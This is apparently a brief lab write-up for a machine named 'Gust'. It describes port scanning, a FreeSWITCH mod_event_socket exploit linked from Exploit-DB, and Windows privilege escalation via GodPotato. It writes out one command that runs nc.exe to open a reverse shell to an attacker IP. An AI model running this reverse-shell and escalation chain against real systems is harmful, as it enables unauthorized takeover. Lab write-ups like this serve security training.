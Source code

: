 # Gust

I start off by scanning for open ports:

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

I don't find anything so i look for exploits for 'FreeSWITCH mod\_event\_socket' and find this:

{% embed url="https://www.exploit-db.com/exploits/47799" %}

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

So i reverse shell with a python base64 encoded payload

<figure><img src="../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Then i transfer file because we have impersonate privilege:

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

and after also transferring nc.exe i run:

```
C:\Temp\GodPotato-NET4.exe -cmd "C:\Temp\nc.exe -e cmd.exe 192.168.45.156 4444"
```

<figure><img src="../../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>
